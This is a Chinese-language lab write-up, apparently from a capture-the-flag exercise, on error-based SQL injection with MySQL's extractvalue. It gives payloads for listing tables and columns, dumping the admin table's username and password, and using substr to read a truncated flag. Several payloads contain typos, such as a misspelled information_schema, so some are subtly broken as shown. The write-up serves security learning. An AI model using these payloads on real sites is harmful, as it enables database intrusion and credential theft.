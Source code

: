 # ==报错注入实验==

**实际过程中，需要先探测数有没有过滤的函数，然后及进行报错利用**





## 数据表名获取

```
and extractvalue(1,concat(0x7e,(select table_name from information_shcema.tables where table_achema=database() limit 0,1),0x7e))
```

![image-20230904132243209](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230904132243209.png)

获取数据库web_sql，数据表名：admin，person





## 获取字段名

```sql
and extractvalue(1,concat(0x7e,(select column_name from information_shcema.columns where table_name='admin limit 0,1'),0x7e))

```

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230904133345888.png" alt="image-20230904133345888" style="zoom:200%;" />

admin(id username password)



## 获取记录

```sql
and extractvalue(1,concat(0x7e,(select concat(id,0x7e,username,0x7e,password from admin limit 0,1)),0x7e))
```

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230904133759061.png" alt="image-20230904133759061" style="zoom:200%;" />

 此时我们发现，这个flag并不完整，我们尝试将id和username都去掉，单独查询passeord尝试一下

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230904134044598.png" alt="image-20230904134044598" style="zoom:200%;" />

我们再次查看发现结果还是不够完整，那么我们推测，单单靠这样的方式是查询不出完整的flag的，那么我们可以尝试使用字符串截取函数，从而查看后面部分的字符串

```sql
and extractvalue(1,concat(0x7e,(select substr(concat(password),10,10) from admin limit 0,1),0x7e))
```

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230904135637988.png" alt="image-20230904135637988" style="zoom:200%;" />

**注意：substr不能从0开始截取**

**小结：报错注入获取数据**